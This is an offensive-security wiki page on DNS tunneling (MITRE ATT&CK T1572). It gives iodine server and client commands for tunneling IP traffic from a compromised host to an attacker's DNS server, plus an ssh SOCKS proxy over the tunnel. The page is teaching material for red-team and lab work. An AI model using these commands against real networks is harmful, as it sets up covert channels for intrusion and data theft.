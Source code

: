 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - Technique T1572
---
```


# DNS Tunneling

## Theory

DNS Tunneling also known as **TCP over DNS**, where an attacker encapsulates other protocols, such as HTTP requests, over the DNS protocol using the [DNS Data Exfiltration technique](../exfiltration/dns.md). DNS Tunneling establishes a communication channel where data is sent and received continuously.

## Practice

{% tabs %}
{% tab title="iodine" %}
[iodine](https://github.com/yarrick/iodine) is a C software that lets you tunnel IPv4 data through a DNS server.\
On the attacking machine we can run the server:

```bash
v4resk@kali$ sudo iodined -f -c -P password 10.1.1.1/24 my.attackingDnsServer.com    
```

On the compromised host, the jumpbox, we will setup the iodine client:

```bash
victim@pwnd.lab$ sudo iodine -P password my.dnsServer.com     
```

Now the attacking machine and the compromised host are sending traffics throught the `dns0` interface. All communication over this interface on the network 10.1.1.1/24 will be over the DNS. We can then setup a socks5 proxy using the `-D` argument of ssh client.

```bash
veresk@kali$ ssh victim@10.1.1.2 -4 -D 1080 -Nf
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}
